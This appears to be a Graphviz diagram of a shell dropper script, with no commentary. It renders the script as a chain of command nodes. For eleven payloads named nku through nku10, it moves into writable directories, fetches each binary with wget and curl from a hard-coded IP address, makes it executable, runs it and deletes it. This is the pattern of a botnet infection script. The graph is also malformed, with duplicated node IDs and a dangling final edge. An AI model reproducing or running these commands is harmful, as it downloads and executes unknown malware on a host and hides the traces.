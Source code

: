 digraph {
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 10 [label="||,"];
10 [label="wget http://89.39.107.56/nku "];
10 -> 12 [label=";,"];
12 [label="curl -O http://89.39.107.56/nku "];
12 -> 14 [label=";,"];
14 [label="chmod +x nku "];
14 -> 16 [label=";,"];
16 [label="./nku "];
16 -> 18 [label=";,"];
18 [label="rm -rf nku "];
18 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 30 [label="||,"];
30 [label="wget http://89.39.107.56/nku1 "];
30 -> 32 [label=";,"];
32 [label="curl -O http://89.39.107.56/nku1 "];
32 -> 34 [label=";,"];
34 [label="chmod +x nku1 "];
34 -> 36 [label=";,"];
36 [label="./nku1 "];
36 -> 38 [label=";,"];
38 [label="rm -rf nku1 "];
38 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 50 [label="||,"];
50 [label="wget http://89.39.107.56/nku2 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://89.39.107.56/nku2 "];
52 -> 54 [label=";,"];
54 [label="chmod +x nku2 "];
54 -> 56 [label=";,"];
56 [label="./nku2 "];
56 -> 58 [label=";,"];
58 [label="rm -rf nku2 "];
58 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 70 [label="||,"];
70 [label="wget http://89.39.107.56/nku3 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://89.39.107.56/nku3 "];
72 -> 74 [label=";,"];
74 [label="chmod +x nku3 "];
74 -> 76 [label=";,"];
76 [label="./nku3 "];
76 -> 78 [label=";,"];
78 [label="rm -rf nku3 "];
78 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 90 [label="||,"];
90 [label="wget http://89.39.107.56/nku4 "];
90 -> 92 [label=";,"];
92 [label="curl -O http://89.39.107.56/nku4 "];
92 -> 94 [label=";,"];
94 [label="chmod +x nku4 "];
94 -> 96 [label=";,"];
96 [label="./nku4 "];
96 -> 98 [label=";,"];
98 [label="rm -rf nku4 "];
98 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 110 [label="||,"];
110 [label="wget http://89.39.107.56/nku5 "];
110 -> 112 [label=";,"];
112 [label="curl -O http://89.39.107.56/nku5 "];
112 -> 114 [label=";,"];
114 [label="chmod +x nku5 "];
114 -> 116 [label=";,"];
116 [label="./nku5 "];
116 -> 118 [label=";,"];
118 [label="rm -rf nku5 "];
118 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 130 [label="||,"];
130 [label="wget http://89.39.107.56/nku6 "];
130 -> 132 [label=";,"];
132 [label="curl -O http://89.39.107.56/nku6 "];
132 -> 134 [label=";,"];
134 [label="chmod +x nku6 "];
134 -> 136 [label=";,"];
136 [label="./nku6 "];
136 -> 138 [label=";,"];
138 [label="rm -rf nku6 "];
138 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 150 [label="||,"];
150 [label="wget http://89.39.107.56/nku7 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://89.39.107.56/nku7 "];
152 -> 154 [label=";,"];
154 [label="chmod +x nku7 "];
154 -> 156 [label=";,"];
156 [label="./nku7 "];
156 -> 158 [label=";,"];
158 [label="rm -rf nku7 "];
158 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 170 [label="||,"];
170 [label="wget http://89.39.107.56/nku8 "];
170 -> 172 [label=";,"];
172 [label="curl -O http://89.39.107.56/nku8 "];
172 -> 174 [label=";,"];
174 [label="chmod +x nku8 "];
174 -> 176 [label=";,"];
176 [label="./nku8 "];
176 -> 178 [label=";,"];
178 [label="rm -rf nku8 "];
178 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 190 [label="||,"];
190 [label="wget http://89.39.107.56/nku9 "];
190 -> 192 [label=";,"];
192 [label="curl -O http://89.39.107.56/nku9 "];
192 -> 194 [label=";,"];
194 [label="chmod +x nku9 "];
194 -> 196 [label=";,"];
196 [label="./nku9 "];
196 -> 198 [label=";,"];
198 [label="rm -rf nku9 "];
198 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://89.39.107.56/nku10 "];
210 -> 212 [label=";,"];
212 [label="curl -O http://89.39.107.56/nku10 "];
212 -> 214 [label=";,"];
214 [label="chmod +x nku10 "];
214 -> 216 [label=";,"];
216 [label="./nku10 "];
216 -> 217 [label=";,"];
}
